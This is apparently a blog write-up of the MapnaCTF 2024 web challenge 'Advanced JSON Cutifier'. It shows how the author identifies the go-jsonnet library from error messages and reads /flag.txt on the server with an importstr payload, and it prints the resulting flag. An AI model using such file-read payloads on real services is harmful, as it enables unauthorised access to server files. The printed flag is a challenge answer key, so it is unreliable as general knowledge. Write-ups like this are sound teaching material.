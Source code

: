 ```yaml
---
title: "Advanced JSON Cutifier"
description: "My homework was to write a JSON beautifier. Just Indenting JSON files was too boring that's why I decided to add some features to my project using a popular (More than 1k stars on GitHub!! ) library to make my project more exciting. Important: You can't read any file other than /flag.txt on the remote environment."
pubDate: 2024-01-22
ctf: "MapnaCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-mapnactf/icon.png"
---
```


Looking at the source code provided first we can see a redacted Go library from github.

```go
import (
    "net/http"
    "github.com/gin-gonic/gin"
    "github.com/REDACTED/REDACTED"
)
```

I cause some errors on the server to try and identify the library:
```
Expected token OPERATOR but got "}"
Expected a comma before next field
```

Both these errors point towards the [go-jsonnet](https://github.com/google/go-jsonnet) library, which meets the stars requirement in the challenge description.

I end up looking for ways to read files in the issues section of the repo and find [this issue](https://github.com/google/go-jsonnet/issues/337).

It mentions a payload like the following:

```json
{
    "wow so advanced!!": importstr "/flag.txt”
}
```

Running it in the parser we are given the flag:

```json
{
   "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"
}
```

Flag: `MAPNA{5uch-4-u53ful-f347ur3-a23f98d}`

**Files:** [player_a466f9f2a43ac42473015d72342c262e8d4b9519.txz](https://web.archive.org/web/20240121175642/https://mapnactf.com/tasks/player_a466f9f2a43ac42473015d72342c262e8d4b9519.txz)
